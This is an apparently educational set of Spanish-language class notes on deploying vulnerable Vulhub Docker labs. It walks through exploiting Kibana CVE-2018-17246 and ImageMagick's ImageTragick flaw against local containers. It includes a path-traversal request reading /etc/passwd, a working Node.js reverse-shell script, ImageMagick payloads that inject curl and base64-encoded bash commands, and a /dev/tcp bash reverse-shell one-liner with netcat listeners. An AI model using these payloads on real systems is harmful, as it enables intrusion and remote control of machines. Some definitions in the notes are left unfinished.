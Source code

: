 ## Despliegue de máquinas vulnerables con Docker-Compose

Tags: #Docker #Comandos #Linux 

A continuación, os proporcionamos el enlace al proyecto de Github que estamos usando para esta clase:
-   **Vulhub**: [https://github.com/vulhub/vulhub](https://github.com/vulhub/vulhub)
Asimismo, por aquí os compartimos el enlace al recurso donde se nos ofrece el script en Javascript encargado de establecer la Reverse Shell:
-   **NodeJS Reverse Shell**: [https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell](https://github.com/appsecco/vulnerable-apps/tree/master/node-reverse-shell)

Desplegaremos una maquina Kibana con su vulnerabilidad 
* **Kibana** es una interfaz de usuario gratuita y abierta que permite visualizar los datos de ElasticSearch y navegar en el Elastic Stack
* **Elasticsearch** es 
* **Elastic Stack**  es

❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/kibana/CVE-2018-17246** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port cve-2018-17246_kibana_1** Miramos el puerto que esta usando para ese servicio en especifico

Web **localhost:5601** Para poder ver el servicio web de Kibana

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../etc/passwd"**
* X -> Es el metodo que queremos tramitar GET
* s -> modo silence
❯ **docker-compose logs** Para mirar los logs en Docker pero debes de estar dentro del contenedor 
❯ **docker-compose exec kibana bash** Para ingresar al Kibana
	❯ **cd /tmp** Este dir tiene privilegios de lectura y escritura
	❯ **nano reverse.js**
		(function(){
		    var net = require("net"),
		        cp = require("child_process"),
		        sh = cp.spawn("/bin/sh", []);
		    var client = new net.Socket();
		    client.connect(443, "172.17.0.1", function(){
		        client.pipe(sh.stdin);
		        sh.stdout.pipe(client);
		        sh.stderr.pipe(client);
		    });
		    return /a/; // Prevents the Node.js application form crashing
		})();

Con este archivo loque hacemos es que vamos a crear una ReverShell por un puerto y nuestra IP (172.17.0.1) pero seria la del **docker0**, despues solo nos pondriamos en escucha por Netcat en el puerto 443
❯ **ifconfig docker0** Miramos la IP de la interface docker0

❯ **curl  -s -X GET "\http://localhost:5601/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../tmp/reverse.js"**
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux


****

Desplegaremos otra maquina llamada **ImageMagick** con su vulnerabilidad 
-   **Proyecto de Github**: [https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick](https://github.com/vulhub/vulhub/tree/master/imagemagick/imagetragick)

Este proyecto se encarga de procesar contenido multimedia 
❯ **svn checkout \https://github.com/vulhub/vulhub/trunk/imagemagick/imagetragick** Para clonar una subcarpeta de Github y en donde dice **/tree/master** quitarlo de la url y colocar **/trunk** y el resto de la url
❯ **docker-compose up -d** Para poder desplegar el contenerdor una vez descargada
❯ **docker port imagetragick_web_1** Miramos el puerto que esta usando para ese servicio en especifico y nos muestra el 8080

Web **localhost:8080** Para poder ver el servicio web de Imagetragick

Podemos usar BurpSuite con otro puerto para poder interceptar la comunicacion y asi en el campo de la extension del archivo a subir, modificarlo y ver que tipo de archivos acepta. Esto se haria con un ataque de fuuerza bruta en el Intruder y con una expresion regular en **Options > Grep-Match** podemos seleccionar **Add** y despues la expresion o el texto que queremos que nos haga match en la respuesta 

Podemos colocar este contenido en el archivo '.jpg' en Burpsuite y poder explotar la vulnerabilidad
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?|curl "172.72.0.1/testingRCE")'
pop graphic-context
```
❯ **python3 -m http.server 80** Nos montamos un servidor http 80


Ahora podemos hacer la Revershell 
❯ **nvim file.gif**
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.0/oops.jpg?`echo tqergqerbash64revershell | base64 -d | bash`"||id " )'
pop graphic-context
```
Despues de echo colocaremos la revershell pero que fue codificada en base 64
❯ **echo -n "/bin/bash -i >& /dev/tcp/172.72.0.1/4646 0>&1" | base64** Nos regresara la Revershell codificada 
